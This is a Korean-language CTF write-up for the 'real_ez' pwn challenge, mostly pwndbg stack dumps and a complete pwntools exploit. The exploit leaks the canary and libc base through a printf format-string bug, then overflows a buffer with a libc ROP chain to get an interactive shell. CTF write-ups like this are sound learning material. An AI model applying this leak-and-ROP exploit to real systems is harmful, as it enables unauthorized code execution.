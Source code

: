- 뱅가드에서 글자 수 제한 없이 입력받음 -> 버퍼오버플로우
- menu에서 printf() 오용 -> 포멧스트링 버그
- 아래 사진 정보들을 기반으로 익스함
- pie base로 푸는 방법도 있는 것 같은데 잘 몰라서 걍 libc base 구해서 풀었음


![[스크린샷 2024-04-09 050014.png]]

![[스크린샷 2024-04-09 050103.png]]

![[스크린샷 2024-04-09 050600.png]]

![[스크린샷 2024-04-09 050854.png]]

![[스크린샷 2024-04-09 051104.png]]

```
pwndbg> telescope rsp
00:0000│ rsp     0x7fffffffde40 ◂— 0x0
01:0008│-058     0x7fffffffde48 ◂— 0x0
02:0010│ rax rsi 0x7fffffffde50 —▸ 0x7ffff7fa4600 (_IO_file_jumps) ◂— 0x0
03:0018│-048     0x7fffffffde58 —▸ 0x7ffff7e175ad (_IO_file_setbuf+13) ◂— test rax, rax
04:0020│-040     0x7fffffffde60 —▸ 0x7ffff7fa86a0 (_IO_2_1_stderr_) ◂— 0xfbad2087
05:0028│-038     0x7fffffffde68 —▸ 0x7ffff7e0e6e5 (setvbuf+245) ◂— cmp rax, 1
06:0030│-030     0x7fffffffde70 ◂— 0x0
07:0038│-028     0x7fffffffde78 —▸ 0x7fffffffdea0 —▸ 0x7fffffffdeb0 ◂— 0x1
pwndbg> ni
...

pwndbg> telescope
00:0000│ rsp 0x7fffffffde40 ◂— 0x0
01:0008│-058 0x7fffffffde48 ◂— 0x0
02:0010│ rsi 0x7fffffffde50 ◂— 0x6664736166647361 ('asdfasdf')
03:0018│-048 0x7fffffffde58 —▸ 0x7ffff7e1750a (_IO_file_sync+218) ◂— mov rsi, qword ptr [rsp + 8]
04:0020│-040 0x7fffffffde60 —▸ 0x7ffff7fa86a0 (_IO_2_1_stderr_) ◂— 0xfbad2087
05:0028│-038 0x7fffffffde68 —▸ 0x7ffff7e0e6e5 (setvbuf+245) ◂— cmp rax, 1
06:0030│-030 0x7fffffffde70 ◂— 0x0
07:0038│-028 0x7fffffffde78 —▸ 0x7fffffffdea0 —▸ 0x7fffffffdeb0 ◂— 0x1
pwndbg>
```



```python
from pwn import *
import sys

if sys.argv[1] == "1":
    env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9.10_amd64.so"}
    p = process("./real_ez", env=env)
else:
    p = remote("ctf.hanbyul.me", 10013)

context.log_level = "debug"

p.sendline(b"%17$p%21$p")

p.recvuntil(b"0x")
canary = int(p.recvn(16), 16)

p.recvuntil(b"0x")
libc_base = int(p.recvn(12), 16) - 0x24083
print(libc_base)

p.sendlineafter(b"> ", b"7274")

payload = b"B" * 0x18
payload += p64(canary)
payload += p64(0xAAAAAAAA)
payload += p64(libc_base + 0x023B6A + 1)
payload += p64(libc_base + 0x023B6A)
payload += p64(libc_base + 0x1B45BD)
payload += p64(libc_base + 0x052290)

p.sendlineafter(b"titan :", payload)
p.interactive()

